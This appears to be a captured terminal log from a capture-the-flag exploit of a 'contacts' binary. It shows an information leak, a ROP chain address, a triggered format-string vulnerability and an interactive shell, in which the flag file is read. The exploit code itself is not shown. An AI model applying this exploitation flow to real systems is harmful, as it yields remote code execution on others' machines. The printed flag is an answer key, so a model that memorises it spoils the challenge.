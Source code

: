 ```bash
5)Exit
>>> 
Contacts:
    Name: infoleak
    Length 8192
    Phone #: 1337
    Description: f7547a63
    Name: ropchain
    Length 8192
    Phone #: 1337
    Description: ÐÜV÷ÞÀ­\x0b\x84\xbah÷<87fe030>
Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
>>> 
[+]Got ROP chain address: [0x87fe030]
[*]Sending exploit...
Contact info: 
    Name: 
[DEBUG] Haven't written a parser for phone numbers; You have 10 numbers
    Enter Phone No: 
    Length of description: 
    Enter description:
        
Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
>>> 
[+]Exploit sent!
[*]Triggering format string vulnerability...
[*]Triggering RCE condition...
[*] Switching to interactive mode
Thanks for trying out the demo, sadly your contacts are now erased
$ whoami
ctf
$ id
uid=1001(ctf) gid=1001(ctf) groups=1001(ctf)
$ uname -a
Linux ip-172-31-44-100 3.13.0-48-generic #80-Ubuntu SMP Thu Mar 12 11:16:15 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
$ ls -la
total 44
drwxr-xr-x 2 ctf  ctf  4096 Sep 18 19:39 .
drwxr-xr-x 4 root root 4096 Sep 18 01:00 ..
-rw------- 1 ctf  ctf  1340 Sep 20 15:45 .bash_history
-rw-r--r-- 1 ctf  ctf   220 Sep 18 01:00 .bash_logout
-rw-r--r-- 1 ctf  ctf  3637 Sep 18 01:00 .bashrc
-rwxrwxr-x 1 ctf  ctf  9716 Sep 18 19:38 contacts_54f3188f64e548565bc1b87d7aa07427
-rw-rw-r-- 1 ctf  ctf    35 Sep 18 19:21 flag
-rw-r--r-- 1 ctf  ctf   675 Sep 18 01:00 .profile
-rw-rw-r-- 1 ctf  ctf    66 Sep 18 01:02 .selected_editor
$ cat flag
flag{f0rm47_s7r1ng5_4r3_fun_57uff}
```